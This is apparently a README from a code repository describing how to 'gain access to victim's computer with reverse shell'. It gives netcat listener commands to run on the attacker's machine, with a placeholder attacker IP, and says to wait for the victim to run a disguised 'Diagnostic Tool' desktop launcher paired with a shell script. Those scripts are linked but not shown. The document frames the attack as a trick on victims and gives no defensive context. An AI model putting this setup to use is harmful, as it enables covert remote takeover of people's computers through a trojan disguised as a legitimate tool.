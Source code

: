 # Gain access to victim's computer with reverse shell

1. On **attacker's** computer (Linux with netcat installed), run the following if
    - victim is using linux (**our case**)
    ```bash
    sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

    - ~~victim is using Windows~~
    ```bash
    stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

2. Wait for the victim to run the 'Diagnostic Tool' executable file: 
    - Linux:
        - [NetworkTool.desktop](NetworkTool.desktop) (executable), together with
        - [victim_linux.sh](victim_linux.sh)
        - Note: make the .desktop file executable by
            ```bash
            chmod +x NetworkTool.desktop 
            ```
    - ~~[Windows](victim_windows.py)~~

3. Boom! Access granted!
